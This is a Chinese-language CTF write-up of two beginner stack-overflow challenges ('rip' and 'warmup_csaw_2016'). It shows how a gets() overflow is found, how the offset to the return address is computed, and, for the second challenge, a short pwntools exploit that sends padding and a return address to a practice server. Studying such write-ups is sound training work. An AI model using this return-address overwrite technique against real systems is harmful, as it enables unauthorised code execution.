 # rip
先查看一下开了哪些保护\
![image](https://user-images.githubusercontent.com/98165037/188303228-82ab9753-9b76-4bd4-85d5-21e54f7f9e3c.png)\
几乎没开什么保护\
放进ida看看\
![image](https://user-images.githubusercontent.com/98165037/188303300-b7aac343-6559-44c2-a808-26ac8cb60769.png)\
看到gets函数，一个明显的溢出点\
然后又发现了一个fun函数（后门函数？）可以直接get shell\
![image](https://user-images.githubusercontent.com/98165037/188303382-39a84a3f-4873-4b52-b3a2-683fe27772f3.png)\
所以就是通过gets函数溢出覆盖到rbp然后ret到fun函数地址去执行\
这里看到fun函数地址是0x401186\
![image](https://user-images.githubusercontent.com/98165037/188303687-0c2d3d55-c6ac-41c4-be4e-c723a63eb1b3.png)\
或者直接ret到0x40118A执行system("/bin/sh")\
双击s看到s距离rbp 15个字节，并且rbp有8字节，所以一共要覆盖（0xf+0x8）字节的长度\
![image](https://user-images.githubusercontent.com/98165037/188303576-db6e46ea-c60f-41cb-a0b9-ca36655ed1a8.png)\
所以exp如下\
![image](https://user-images.githubusercontent.com/98165037/188303611-7c8e565a-d00c-4aa7-83e9-8324a495c9d7.png)
# warmup_csaw_2016
checksec一下\
![image](https://user-images.githubusercontent.com/98165037/188305580-3b29e959-c502-4d52-b6f7-b4df1cd15c30.png)\
耶没什么保护\
ida打开\
![image](https://user-images.githubusercontent.com/98165037/188305649-aa309e65-45d4-4688-86bf-fa906758d633.png)\
显然又是gets\
又非常幸运地找到了一个nice的函数，能够让我们看到flag\
![image](https://user-images.githubusercontent.com/98165037/188305730-09de9ad7-fb23-4576-8b35-e2844efec57d.png)\
查看它的地址\
![image](https://user-images.githubusercontent.com/98165037/188305764-6ae6e05b-41e0-4a39-ac4a-334c5561314a.png)\
直接ret到0x400611好了\
再看看gets的参数v5的情况\
![image](https://user-images.githubusercontent.com/98165037/188305820-c42f260e-3197-4410-830b-b91fc3187cf0.png)\
到rbp的距离是0x40，rbp占8个字节，所以一个要覆盖（0x40+8）个字节\
exp如下
```
from pwn import *
io = remote('node4.buuoj.cn',29055)
payload = b'a'*(0x40+0x8)+p64(0x400611)
io.send(payload)
io.interactive()
```
但我需要手动ls才能看到\
![image](https://user-images.githubusercontent.com/98165037/188305948-9a73121c-3ee2-4d72-94de-5000837f2849.png)
